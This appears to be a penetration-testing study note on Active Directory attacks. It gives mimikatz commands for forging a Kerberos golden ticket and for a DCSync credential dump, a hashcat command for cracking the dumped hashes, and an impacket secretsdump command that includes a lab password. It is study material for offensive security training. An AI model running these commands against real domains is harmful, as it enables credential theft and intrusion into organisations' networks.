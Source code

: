 ```
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
# Domain Controller Synchronization
Directory Replication Service (DRS) Remote protocol uses replication to synchronize these redundant domain controllers. A DC may request an update for a specific object using the IDL_DRSGetNCChanges API. 
DC doesn't check whether the request came from a known DC.
>To launch such a replication, a user needs to have the _Replicating Directory Changes_, _Replicating Directory Changes All_, and _Replicating Directory Changes in Filtered Set_ rights. By default, members of the _Domain Admins_, _Enterprise Admins_, and _Administrators_ groups have these rights assigned.

dcsync attack - impersonate a DC.
With mimikatz:
```
lsadump::dcsync /user:corp\dave
```
Crack the hash with hashcat:
```
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
With impacket:
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
